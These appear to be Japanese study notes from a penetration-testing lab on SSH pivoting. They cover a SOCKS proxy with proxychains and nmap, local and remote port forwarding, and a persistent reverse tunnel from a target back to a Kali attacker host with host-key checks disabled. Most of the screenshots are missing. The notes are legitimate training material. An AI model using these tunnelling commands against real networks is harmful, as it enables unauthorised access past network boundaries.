 ```
ssh [user]@[ip] -D 1080
```

configファイル変更
/etc/proxychains4.confを修正
```
socks5 127.0.0.1 1080
```
使用方法
```
proxychains nmap [option]
```

## 24.5.3 安定したリバーストンネルの構築   
1.　新しいSSH鍵のペアを生成   
2.　kaliのauthorized_keysファイルに追加   
3.　SSHポート転送コマンド発行   
4.　/etc/proxychains4.confを編集   
```
ssh-keygen -t rsa -N '' -f ~/.ssh/key
```
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@192.168.119.164
```

## 20.2.2 SSH ローカル ポート フォワーディング   
ターゲット VM #1 には、サーバーのローカル アドレス空間からのみ到達可能な、内部でホストされている Web サイトがあります。このサーバーを参照してフラグを取得します。  
```
[構文]   
ssh -N -L [bind_address:]port:host:hostport [username@address]
```


![2022-12-05_09-44-08.png](../_resources/2022-12-05_09-44-08.png)



![2022-12-05_09-40-31.png](../_resources/2022-12-05_09-40-31.png)

## 20.2.3. SSH リモート ポート フォワーディング   


![2022-12-05_10-16-49.png](../_resources/2022-12-05_10-16-49.png)

受信までに時間がかかった

![2022-12-05_10-17-15.png](../_resources/2022-12-05_10-17-15.png)

## 20.2.5. SSH 動的ポート転送



![2022-12-05_11-14-45.png](../_resources/2022-12-05_11-14-45.png)


開放ポートを探す   
![2022-12-05_12-33-54.png](../_resources/2022-12-05_12-33-54.png)


![2022-12-05_11-13-23.png](../_resources/2022-12-05_11-13-23.png)

